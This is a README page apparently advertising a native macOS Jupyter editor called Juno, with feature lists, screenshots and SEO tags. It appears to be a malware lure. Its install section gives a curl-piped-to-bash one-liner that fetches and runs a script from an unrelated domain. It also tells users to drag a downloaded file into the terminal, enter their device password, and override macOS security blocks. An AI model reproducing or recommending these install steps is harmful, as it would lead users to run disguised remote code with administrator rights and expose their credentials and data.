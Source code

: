<p align="center">
  <img src="https://i.ibb.co/0yTywRNn/1684162766-icon.webp" alt="Juno Editor macOS Banner" />
</p>

<h1 align="center">Juno Editor for macOS</h1>

<p align="center">
  🧪 A clean, native Jupyter notebook editor for macOS — write, run, and visualize Python in one streamlined interface.  
  <br><br>
  ✅ Works on Apple Silicon and Intel  
  ✅ Compatible with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/220" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20JUNO%20EDITOR%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Juno Editor for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/QqCjcvC/1625070085-2.jpg" alt="Juno Editor macOS Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Juno Editor for macOS?

**Juno Editor** is a native Jupyter notebook client built for macOS, giving you the ability to code in Python, format with Markdown, and visualize results — all in a polished local interface.

It’s ideal for data scientists, students, and engineers who want the power of Jupyter without the hassle of browser-based environments. Run notebooks, view plots, and write code with full control — even offline.

---

## ✅ Why Choose Juno Editor?

- 🐍 **Native Python + Markdown Notebook Support**  
- 🧾 **Code, Comment, and Plot in One Interface**  
- 📉 **Inline Chart Rendering and Data Display**  
- 📁 **Local File Access – No Cloud Required**  
- 🍎 **M1/M2/M3 Native Acceleration**  
- 🖥️ **Optimized for macOS Look & Feel**  
- ✏️ **Markdown with Live Preview**  
- 🧪 **Perfect for Learning, Research, or Dev Work**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/fVjQMdxC/1625070078-1.jpg" alt="Python Notebook in Juno macOS" />
  <br><br>
  <img src="https://i.ibb.co/dsr0VQ9N/juno-editor-screenshot.png" alt="Markdown and Plot Output Juno Editor" />
</p>

---

## 🚀 Key Features

- Native support for Jupyter notebooks  
- Inline execution with plot rendering  
- Syntax highlighting and Markdown formatting  
- Offline access to files and outputs  
- One-click environment setup  
- Support for common Python libraries  
- Minimalist UI with fullscreen editing  
- Runs natively on Apple Silicon

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Juno Editor manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-Jupyter+Notebook+Client-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Python+Markdown+Editor-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Juno – Jupyter Without the Browser

Thanks for using **Juno Editor for macOS**.  
Focus on code, not configuration.

---

## 🧭 Usage Context

Juno is built for individual research, local Python coding, and notebook testing workflows.  
It doesn’t require any external server or runtime, and runs entirely on-device.

All execution is local and fully sandboxed.

---

## 🔍 Tags

```text
juno editor for mac download, jupyter notebook client macos m1, python markdown editor native mac, juno jupyter app for macbook pro, offline notebook runner for mac, juno full version mac native arm, jupyter notebooks on mac without browser, run python code mac notebook editor, juno editor support for matplotlib pandas, local data science notebook mac, install juno app macbook air, minimal jupyter frontend for mac, native apple silicon notebook interface, best jupyter notebook viewer mac, write execute code offline macos
